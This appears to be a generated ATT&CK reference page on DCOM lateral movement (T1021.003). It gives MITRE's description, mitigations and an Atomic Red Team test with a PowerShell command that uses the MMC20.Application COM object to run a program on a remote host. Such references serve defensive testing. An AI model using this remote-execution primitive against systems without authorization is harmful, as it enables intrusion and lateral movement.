 
# Distributed Component Object Model

## Description

### MITRE Description

> Adversaries may use [Valid Accounts](https://attack.mitre.org/techniques/T1078) to interact with remote machines by taking advantage of Distributed Component Object Model (DCOM). The adversary may then perform actions as the logged-on user.

The Windows Component Object Model (COM) is a component of the native Windows application programming interface (API) that enables interaction between software objects, or executable code that implements one or more interfaces. Through COM, a client object can call methods of server objects, which are typically Dynamic Link Libraries (DLL) or executables (EXE). Distributed COM (DCOM) is transparent middleware that extends the functionality of COM beyond a local computer using remote procedure call (RPC) technology.(Citation: Fireeye Hunting COM June 2019)(Citation: Microsoft COM)

Permissions to interact with local and remote server COM objects are specified by access control lists (ACL) in the Registry.(Citation: Microsoft Process Wide Com Keys) By default, only Administrators may remotely activate and launch COM objects through DCOM.(Citation: Microsoft COM ACL)

Through DCOM, adversaries operating in the context of an appropriately privileged user can remotely obtain arbitrary and even direct shellcode execution through Office applications(Citation: Enigma Outlook DCOM Lateral Movement Nov 2017) as well as other Windows objects that contain insecure methods.(Citation: Enigma MMC20 COM Jan 2017)(Citation: Enigma DCOM Lateral Movement Jan 2017) DCOM can also execute macros in existing documents(Citation: Enigma Excel DCOM Sept 2017) and may also invoke Dynamic Data Exchange (DDE) execution directly through a COM created instance of a Microsoft Office application(Citation: Cyberreason DCOM DDE Lateral Movement Nov 2017), bypassing the need for a malicious document.

## Aliases

```

```

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: None
* Permissions: ['Administrator', 'SYSTEM']
* Platforms: ['Windows']
* Remote: None
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1021/003

## Potential Commands

```
[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","localhost")).Document.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")
```

## Commands Dataset

```
[{'command': '[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","localhost")).Document.ActiveView.ExecuteShellCommand("c:\\windows\\system32\\calc.exe", '
             '$null, $null, "7")\n',
  'name': None,
  'source': 'atomics/T1021.003/T1021.003.yaml'}]
```

## Potential Detections

```json

```

## Potential Queries

```json

```

## Raw Dataset

```json
[{'Atomic Red Team Test - Remote Services: Distributed Component Object Model': {'atomic_tests': [{'auto_generated_guid': '6dc74eb1-c9d6-4c53-b3b5-6f50ae339673',
                                                                                                   'description': 'Powershell '
                                                                                                                  'lateral '
                                                                                                                  'movement '
                                                                                                                  'using '
                                                                                                                  'the '
                                                                                                                  'mmc20 '
                                                                                                                  'application '
                                                                                                                  'com '
                                                                                                                  'object.\n'
                                                                                                                  '\n'
                                                                                                                  'Reference:\n'
                                                                                                                  '\n'
                                                                                                                  'https://blog.cobaltstrike.com/2017/01/24/scripting-matt-nelsons-mmc20-application-lateral-movement-technique/\n'
                                                                                                                  '\n'
                                                                                                                  'Upon '
                                                                                                                  'successful '
                                                                                                                  'execution, '
                                                                                                                  'cmd '
                                                                                                                  'will '
                                                                                                                  'spawn '
                                                                                                                  'calc.exe '
                                                                                                                  'on '
                                                                                                                  'a '
                                                                                                                  'remote '
                                                                                                                  'computer.\n',
                                                                                                   'executor': {'command': '[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","#{computer_name}")).Document.ActiveView.ExecuteShellCommand("c:\\windows\\system32\\calc.exe", '
                                                                                                                           '$null, '
                                                                                                                           '$null, '
                                                                                                                           '"7")\n',
                                                                                                                'name': 'powershell'},
                                                                                                   'input_arguments': {'computer_name': {'default': 'localhost',
                                                                                                                                         'description': 'Name '
                                                                                                                                                        'of '
                                                                                                                                                        'Computer',
                                                                                                                                         'type': 'string'}},
                                                                                                   'name': 'PowerShell '
                                                                                                           'Lateral '
                                                                                                           'Movement '
                                                                                                           'using '
                                                                                                           'MMC20',
                                                                                                   'supported_platforms': ['windows']}],
                                                                                 'attack_technique': 'T1021.003',
                                                                                 'display_name': 'Remote '
                                                                                                 'Services: '
                                                                                                 'Distributed '
                                                                                                 'Component '
                                                                                                 'Object '
                                                                                                 'Model'}}]
```

# Tactics


* [Lateral Movement](../tactics/Lateral-Movement.md)


# Mitigations


* [Privileged Account Management](../mitigations/Privileged-Account-Management.md)

* [Network Segmentation](../mitigations/Network-Segmentation.md)
    
* [Disable or Remove Feature or Program](../mitigations/Disable-or-Remove-Feature-or-Program.md)
    
* [Application Isolation and Sandboxing](../mitigations/Application-Isolation-and-Sandboxing.md)
    

# Actors

None
